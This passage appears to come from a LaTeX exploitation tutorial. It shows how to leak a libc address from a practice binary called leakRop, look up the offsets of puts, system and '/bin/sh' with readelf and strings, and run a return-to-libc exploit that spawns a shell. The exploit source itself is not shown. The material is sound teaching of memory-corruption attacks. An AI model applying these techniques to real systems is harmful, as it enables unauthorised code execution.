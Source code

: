 Ignoring the first and last lines, we see that \texttt{leakRop} has
\texttt{libc.so.6} as a dependency, and that it's located on the system at
\texttt{/lib/i386-linux-gnu/libc.so.6}. Using \texttt{objdump}, we can get the
offsets of every function in this copy of libc.
\begin{lstlisting}
> readelf -s /lib/i386-linux-gnu/libc.so.6 | grep puts
   205: 0005fca0   464 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.0
   434: 0005fca0   464 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.0
   509: 000ebb20  1169 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.0
   697: 000ed1d0   657 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1182: 0005e720   349 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.0
  1736: 0005e720   349 FUNC    GLOBAL DEFAULT   13 _IO_fputs@@GLIBC_2.0
  2389: 000680e0   146 FUNC    WEAK   DEFAULT   13 fputs_unlocked@@GLIBC_2.1
> readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   245: 00112ed0    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
\end{lstlisting}
The output above shows that \texttt{puts} and \texttt{system} have offsets of
\texttt{0x0005fca0} and \texttt{0x0003ada0} from the start of libc,
respectively. Next we can get the address of "/bin/sh" with \texttt{strings}.
\begin{lstlisting}
> strings -tx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 15b9ab /bin/sh
\end{lstlisting}
This is everything we need in order to call \texttt{system("/bin/sh")}, as shown
by this program.



When run, the exploit spawns a shell.

\begin{lstlisting}
> ./input_leakRop.py 
[+] Starting local process './leakRop': pid 16530
[*] leaked puts address: 0xf762aca0
[*] found libc base address 0xf75cb000
[*] found system address 0xf7605da0
[*] found "/bin/sh" address 0xf77269ab
[*] Switching to interactive mode
Please take a seat, we'll be with you at some point this week.
$ whoami
devneal
$  
\end{lstlisting}

